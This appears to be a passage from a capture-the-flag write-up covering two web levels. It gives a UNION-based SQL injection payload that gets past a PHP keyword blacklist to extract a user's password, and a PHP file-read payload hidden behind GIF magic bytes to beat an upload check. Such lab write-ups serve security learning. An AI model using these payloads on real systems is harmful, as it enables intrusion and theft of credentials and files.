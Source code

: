 This has a bullet proof blacklist.

```php
function sanitize($str) {
    /* Rock-solid ! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "+", "-"];
    $special2 = [".", "/",  ":", ";", "<", "=", ">", "?", "@"];
    $special3 = ["[", "]", "^", "_", "`", "\\", "|", "{", "}"];

    $sql = ["or", "is", "like", "glob", "join", "0", "limit", "char"];

    $blacklist = array_merge($special1, $special2, $special3, $sql);

    foreach ($blacklist as $value) {
        if (stripos ($str, $value) !== false)
            die ("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}
$query = 'SELECT id,login FROM users WHERE id=' . $injection;
```

No special chars allowed. I can use UNION to combine queries though! 

Testing shows me that there are 2 columns `id,login`.

```sql
5 UNION SELECT null,null
```

Now, they didn't limit `()` chars, allowing me to specify some subqueries.
The goal is to retrieve the password of the user where id = 1.

I cannot specify the word `password` because it contains `or`, so the short form `pass` will have to do.

To bypass this, I can first create a result set with 3 columns, and then union select that with users (which also has 3 columns).

This would ensure the LEFT and RIGHT queries for UNION have the same number of columns, allowing me to retrieve the data from the `users` table without specifying `password`.

```sql
5 union select id, pass from (select 5 as id, 5 as name, 5 as pass union select * from users) where id between 1 and 1
```

## Level 08

This allows GIFs to be uploaded, and then uses `include_once` to display the file. 
It uses `exif_imagetype` to check whether it is a GIF, which can be bypassed using magic bytes. Payload below can be used to dump the file:

```php
<?php var_dump(file_get_contents("flag.txt")); ?>
```

Afterwards, just write these bytes: `47 49 46 38 37 61` using Python.
